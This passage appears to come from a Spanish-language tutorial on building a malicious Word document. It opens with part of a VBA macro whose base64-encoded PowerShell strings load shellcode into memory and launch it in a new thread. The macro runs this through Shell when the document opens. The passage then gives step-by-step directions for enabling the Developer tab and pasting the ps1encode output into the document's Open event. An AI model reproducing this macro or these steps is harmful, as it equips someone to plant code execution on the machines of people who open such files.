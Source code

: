 ```
string4="dABhAHQAaQBjACAAZQB4AHQAZQByAG4AIABJAG4AdABQAHQAcgAgAG0AZQBtAHMAZQB0ACgASQBuAHQAUAB0AHIAIABkAGUAcwB0ACwAIAB1AGkAbgB0ACAAcwByAGMALAAgAHUAaQBuAHQAIABjAG8AdQBuAHQAKQA7ACcAJwA7ACQAdwAgAD0AIABBAGQAZAAtAFQAeQBwAGUAIAAtAG0AZQBtAGIAZQByAEQAZQBmAGkAbgBpAHQAaQBvAG"
string5="4AIAAkAGMAIAAtAE4AYQBtAGUAIAAiAFcAaQBuADMAMgAiACAALQBuAGEAbQBlAHMAcABhAGMAZQAgAFcAaQBuADMAMgBGAHUAbgBjAHQAaQBvAG4AcwAgAC0AcABhAHMAcwB0AGgAcgB1ADsAWwBCAHkAdABlAFsAXQBdADsAWwBCAHkAdABlAFsAXQBdACQAcwBjACAAPQAgADsAJABzAGkAegBlACAAPQAgADAAeAAxADAAMAAwADsAaQBm"
string6="ACAAKAAkAHMAYwAuAEwAZQBuAGcAdABoACAALQBnAHQAIAAwAHgAMQAwADAAMAApAHsAJABzAGkAegBlACAAPQAgACQAcwBjAC4ATABlAG4AZwB0AGgAfQA7ACQAeAA9ACQAdwA6ADoAVgBpAHIAdAB1AGEAbABBAGwAbABvAGMAKAAwACwAMAB4ADEAMAAwADAALAAkAHMAaQB6AGUALAAwAHgANAAwACkAOwBmAG8AcgAgACgAJABpAD0AMA"
string7="A7ACQAaQAgAC0AbABlACAAKAAkAHMAYwAuAEwAZQBuAGcAdABoAC0AMQApADsAJABpACsAKwApACAAewAkAHcAOgA6AG0AZQBtAHMAZQB0ACgAWwBJAG4AdABQAHQAcgBdACgAJAB4AC4AVABvAEkAbgB0ADMAMgAoACkAKwAkAGkAKQAsACAAJABzAGMAWwAkAGkAXQAsACAAMQApAH0AOwAkAHcAOgA6AEMAcgBlAGEAdABlAFQAaAByAGUA"
string8="YQBkACgAMAAsADAALAAkAHgALAAwACwAMAAsADAAKQA7AGYAbwByACAAKAA7ADsAKQB7AFMAdABhAHIAdAAtAHMAbABlAGUAcAAgADYAMAB9ADsAJwA7ACQAZwBxACAAPQAgAFsAUwB5AHMAdABlAG0ALgBDAG8AbgB2AGUAcgB0AF0AOgA6AFQAbwBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC"
string9="4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAbgBpAGMAbwBkAGUALgBHAGUAdABCAHkAdABlAHMAKAAkADEAKQApADsAaQBmACgAWwBJAG4AdABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA4ACkAewAkAHgAOAA2ACAAPQAgACQAZQBuAHYAOgBTAHkAcwB0AGUAbQBSAG8AbwB0ACAAKwAgACIAXABzAHkAcwB3AG8AdwA2ADQAXABX"
string10="AGkAbgBkAG8AdwBzAFAAbwB3AGUAcgBTAGgAZQBsAGwAXAB2ADEALgAwAFwAcABvAHcAZQByAHMAaABlAGwAbAAiADsAJABjAG0AZAAgAD0AIAAiAC0AbgBvAHAAIAAtAG4AbwBuAGkAIAAtAGUAbgBjACAAIgA7AGkAZQB4ACAAIgAmACAAJAB4ADgANgAgACQAYwBtAGQAIAAkAGcAcQAiAH0AZQBsAHMAZQB7ACQAYwBtAGQAIAA9ACAAIg"
string11="AtAG4AbwBwACAALQBuAG8AbgBpACAALQBlAG4AYwAiADsAaQBlAHgAIAAiACYAIABwAG8AdwBlAHIAcwBoAGUAbABsACAAJABjAG0AZAAgACQAZwBxACIAOwB9AA=="

stringFinal=stringA+stringB+string0+string1+string2+string3+string4+string5+string6+string7+string8+string9+string10+string11

    Shell stringFinal, 0
End Sub

Sub AutoOpen()
        Auto_Open
End Sub
Sub Workbook_Open()
        Auto_Open
End Sub

```

El cual tenemos que copiar explicitamente. 

Bien ahora tendremos que abrir un documento word, en el cual vamos a tener que habilitar la herramienta de desarrollador, nos dirigimos a **archivo > opciones > personalizar cinta de opciones** y seleccionamos desarrollador para que sea visible.

Una vez que ya hemos realizado el paso anterior pinchamos en desarrollador, nos vamos a visual basic(se encuantra en la barra de herramientas superior) y pinchamos en "this document" y se nos abrirá una ventana nueva. Esta ventana tiene dos apartados, en el primero de ellos por defecto estará en general, tenemos que cambiarlo a document, y luego cambiaremos, a su derecha, la opcion a "open".

Ahora es importante eliminar todo lo que por defecto se haya escrito en la parte de debajo, borramos y pegamos lo que nos generó el ps1encode.
